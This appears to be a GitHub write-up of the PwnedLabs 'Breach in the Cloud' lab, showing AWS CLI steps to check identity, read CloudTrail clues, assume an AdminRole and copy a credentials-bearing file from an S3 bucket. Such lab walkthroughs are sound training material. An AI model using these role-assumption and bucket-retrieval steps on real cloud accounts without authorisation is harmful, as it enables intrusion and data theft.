







## 🚨 PwnedLabs - Breach in the Cloud

### Scenario
The Huge Logistics security team has provided you with credentials and logs following unusual activity. Your task is to investigate and confirm a potential breach.

**Access Key ID:** `REDACTED_FOR_LAB`  
**Secret Access Key:** `REDACTED_FOR_LAB`

---

### Step 1: Check Identity with AWS CLI

```bash
aws sts get-caller-identity
```



---

### Step 2: Analyze CloudTrail Logs
Logs showed attempted access to a bucket named `emergency-data-recovery`:



Also, the `AssumedRole` mechanism was used to escalate privileges:



---

### Step 3: Assume Admin Role
Successfully assumed an admin role:

```bash
aws sts assume-role \
  --role-arn arn:aws:iam::107513503799:role/AdminRole \
  --role-session-name MySession
```



Configured profile:

```bash
aws configure --profile assumed-admin
aws configure set profile.assumed-admin.aws_session_token "<session_token>"
```

---

### Step 4: S3 Enumeration

Initial attempt:
```bash
aws s3 ls --profile assumed-admin
```

Resulted in access denied:


---

But listing the specific bucket worked:
```bash
aws s3 ls s3://emergency-data-recovery --profile assumed-admin
```



---

### Step 5: Retrieve Evidence
```bash
aws s3 cp s3://emergency-data-recovery/emergency.txt ./ --profile assumed-admin
```

The file contained credentials and the flag:



---
